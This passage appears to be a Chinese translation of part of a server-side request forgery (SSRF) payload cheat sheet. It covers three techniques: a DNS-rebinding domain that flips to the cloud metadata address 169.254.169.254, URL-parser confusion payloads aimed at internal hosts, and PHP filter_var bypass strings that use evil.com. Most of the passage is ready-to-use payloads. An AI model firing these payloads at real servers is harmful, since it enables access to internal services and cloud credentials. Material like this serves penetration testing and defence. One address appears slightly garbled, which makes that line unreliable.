 ### 使用DNS重绑定绕过

创建一个在两个IP之间切换的域名。

* [1u.ms](http://1u.ms) - DNS重绑定工具

例如，要在`1.2.3.4`和`169.254-169.254`之间轮换，请使用以下域名：

```powershell
make-1.2.3.4-rebind-169.254-169.254-rr.1u.ms
```

使用`nslookup`验证地址。

```ps1
$ nslookup make-1.2.3.4-rebind-169.254-169.254-rr.1u.ms
Name:   make-1.2.3.4-rebind-169.254-169.254-rr.1u.ms
Address: 1.2.3.4

$ nslookup make-1.2.3.4-rebind-169.254-169.254-rr.1u.ms
Name:   make-1.2.3.4-rebind-169.254-169.254-rr.1u.ms
Address: 169.254.169.254
```

### 利用URL解析差异绕过

[流行编程语言中利用URL解析器的新时代SSRF利用 - Orange Tsai的研究](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf)

```powershell
http://127.1.1.1:80\@127.2.2.2:80/
http://127.1.1.1:80\@@127.2.2.2:80/
http://127.1.1.1:80:\@@127.2.2.2:80/
http://127.1.1.1:80#\@127.2.2.2:80/
```

![URL解析差异](https://github.com/swisskyrepo/PayloadsAllTheThings/raw/master/Server%20Side%20Request%20Forgery/Images/WeakParser.jpg)

不同库的解析行为：`http://1.1.1.1 &@2.2.2.2# @3.3.3.3/`

* `urllib2`将`1.1.1.1`视为目标
* `requests`和浏览器重定向到`2.2.2.2`
* `urllib`解析为`3.3.3.3`

### 绕过PHP filter_var()函数

在PHP 7.0.25中，带有`FILTER_VALIDATE_URL`参数的`filter_var()`函数允许以下URL：

* `http://test???test.com`
* `0://evil.com:80;http://google.com:80/`

```php
<?php 
 echo var_dump(filter_var("http://test???test.com", FILTER_VALIDATE_URL));
 echo var_dump(filter_var("0://evil.com;google.com", FILTER_VALIDATE_URL));
?>
```

